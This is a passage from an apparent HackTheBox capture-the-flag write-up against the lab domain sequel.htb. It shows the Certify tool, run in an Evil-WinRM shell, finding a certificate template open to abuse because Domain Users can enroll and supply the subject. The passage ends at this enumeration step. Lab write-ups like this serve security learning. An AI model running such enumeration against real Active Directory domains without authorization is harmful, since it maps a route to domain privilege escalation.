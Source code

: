 `WinPEAS` told us that the domain uses certificates for authentication. This is very interesing. We can use tools like [Certify](https://github.com/GhostPack/Certify) to enumerate the certificates.

### Enumerating certificates with Certify

We can dowload [Certify](https://github.com/GhostPack/Certify) to our Windows VM and compile it from source, then upload it to the target machine.

```
*Evil-WinRM* PS C:\programdata> .\certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.1.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=sequel,DC=htb'
.
.
.
[!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Domain Users           S-1-5-21-4078382237-1492182817-2568127209-513
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
        WriteOwner Principals       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
```
